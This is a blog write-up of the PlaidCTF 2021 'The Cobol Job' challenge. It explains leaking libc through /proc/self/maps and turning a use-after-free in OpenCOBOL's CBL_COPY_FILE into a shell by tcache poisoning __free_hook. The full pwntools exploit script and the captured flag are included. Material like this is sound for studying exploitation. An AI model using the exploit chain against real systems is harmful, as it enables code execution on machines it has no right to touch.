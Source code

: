 ```yaml
---
layout: post
title: PlaidCTF 2021 - The Cobol Job
---
```

Even though I was going through some post-quarter-end burnout, I managed to join DiceGang for a bit during PlaidCTF 2021. We ended up getting 2nd, 1 place short of pre-qualifying for DEFCONCTF 2021 Finals :(

## The Cobol Job
We are given a cobol program that lets us:
```
-----------------------
1 - Create file
2 - Open file
3 - Read file
4 - Write file
5 - Close file
6 - Copy file
7 - Exit
>
```

We can leak all the addresses including the base of libc by copying `/proc/self/maps` to a file we create, and then reading it.

<!-- more -->

I spent a long time learning too much cobol than anyone ever should to look for arbitrary writes.
Basically, the sizes, file descriptors, and heap pointers to a file's contents are stored in arrays. Ultimately nothing in the implementation would lead to a heap memory corruption.

However, a bug exists in the [open cobol implementation](https://github.com/ayumin/open-cobol/blob/72578e8fe3f13257ae5fb2b306aed112fbf7c3c4/libcob/fileio.c#L4751-L4768) of `CBL_COPY_FILE`, which is used in the copy file function. My teammate KyleForkBomb found this but his internet cut out so I implemented it.

`fn1` is freed, and then written to shortly after. `fn1` just happens to be a 0x20 sized tcache chunk. Because this is Ubuntu 18.04, there is no pointer mangling so poisoning the tcache is very easy.

Using our libc leak from prior, simply copy a file whose content is the address of `__free_hook` into a dummy file whose size will fit into tcache idx 0, such as 0x18.

Create two more 0x18-sized files to set up the write into `__free_hook`. I wrote `/bin/sh` to one of these files because I planned to free them to get a shell later on.

Allocate one more 0x18-sized file. This file's buffer is pointing to `__free_hook`. Write the address of `system` to it.
- The write function first reads our input onto the heap, then writes the input from the heap into the file. So, `__free_hook` is now pointing to `system`.

From there we close a file whose content is `/bin/sh` to trigger the `__free_hook`, getting us a shell.

```python
from pwn import *

e = ELF("./chall")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

p = process([e.path])
p = remote("cobol.pwni.ng", 3083)
context.terminal = ['tmux', 'splitw', '-h']
context.log_level="debug"


p.sendlineafter(">", "6")
p.sendlineafter(":", "/proc/self/maps")
p.sendlineafter(":", "/tmp/leek")

p.sendlineafter(">", "2")
p.sendlineafter(":", "/tmp/leek")
p.sendlineafter(":", "1")
p.sendlineafter(":", "10000")

p.sendlineafter(">", "3")
p.sendlineafter(":", "1")

d = p.recvuntil("Exit").splitlines()


for i in d:
    if "libc" in i:
        libc.address = int(i[:12], 16)
        break


print("libc", hex(libc.address))
print("fh", hex(libc.sym["__free_hook"]))


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "2")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "2")
p.sendafter(":", p64(libc.sym["__free_hook"])+"\xe8")
p.sendline()


p.sendlineafter(">", "6")
p.sendlineafter(":", "bruh")
p.sendlineafter(":", "/tmp/sice")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "3")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "3")
p.sendlineafter(":", "/bin/sh")
p.sendline()


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "5")
p.sendlineafter(":", "24")


p.sendlineafter(">", "1")
p.sendlineafter(":", "bruhaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbb")
p.sendlineafter(":", "4")
p.sendlineafter(":", "24")

p.sendlineafter(">", "4")
p.sendlineafter(":", "4")
p.sendlineafter(":", p64(libc.sym["system"]))
p.sendline()


p.sendlineafter(">", "5")
p.sendlineafter(":", "3")
print("fh", hex(libc.sym["__free_hook"]))

gdb.attach(p)

p.interactive()
```

Flag: `PCTF{l3arning_n3w_languag3_sh0uld_start_with_g00d_bugs_99d4ec917d097f63107e}`
